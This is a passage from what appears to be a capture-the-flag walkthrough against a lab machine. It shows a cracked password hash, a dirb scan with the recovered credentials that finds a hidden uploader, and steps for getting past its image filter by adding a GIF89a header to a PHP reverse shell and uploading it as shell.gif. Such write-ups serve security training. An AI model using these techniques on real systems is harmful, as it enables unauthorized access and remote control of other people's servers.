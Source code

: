 ```txt
Loaded 1 password hash (FreeBSD MD5 [128/128 SSE2 intrinsics 12x])
frank!!!         (frank)
guesses: 1  time: 0:00:00:00 DONE (Fri Oct 12 15:32:15 2018)  c/s: 3800  trying: frank!! - fr4nk
```

Password acquired (`frank!!!`), Go to the page `/development` to look:

```txt
* Here is my unfinished tools list
- the uploader tool (finished but need security review)
```
So there are a hidden path somewhere, let's try to find it with dirb, we create a file to logging with dirb: 
    $ vim log
    frank:frank!!!
    :wq

And dirb:

    $ dirb http://192.168.2.180/development /usr/share/dict/dirb-wordlists/common.txt -u $(cat log)


```txt
---- Scanning URL: http://192.168.2.180/development/ ----
+ http://192.168.2.180/development/index (CODE:200|SIZE:144)
- - -
==> DIRECTORY: http://192.168.2.180/development/uploader/
+ http://192.168.2.180/development/uploader/index (CODE:200|SIZE:1187)
+ http://192.168.2.180/development/uploader/upload (CODE:200|SIZE:113)
```

So, look into `/development/uploader/`... to discover a page to upload a file. I've try to upload an other file and:

```txt
File is an image - image/jpeg.Sorry, only JPG, JPEG, PNG & GIF files are allowed.Sorry, your file was not uploaded.
```

Ok, we'll upload a gif with a payload, let's check how make this...
After few time on google, i've found a post [here](https://blackpentesters.blogspot.com/2013/08/gif-image-xss.html).  
In resume, we can add a gif header hexa code (GIF89a - this value is in any gif image) at the beginnig of any file, so we need a php reverse shell.  
I use a reverse shell found in the package `webshells`, source `https://github.com/BlackArch/webshells`.

    $ cp /usr/share/webshells/php/php-reverse-shell.php ./
    $ vim php-reverse-shell.php

On the first line, add `GIF89a` like this:

    GIF89a
    <?php

`<?php` is alrealy present, change too the value of `$ip` and `$port`, it should match with your ip. Save and quit.   
Rename the file to `shell.gif`. Next step is to upload this at `/development/uploader/`.
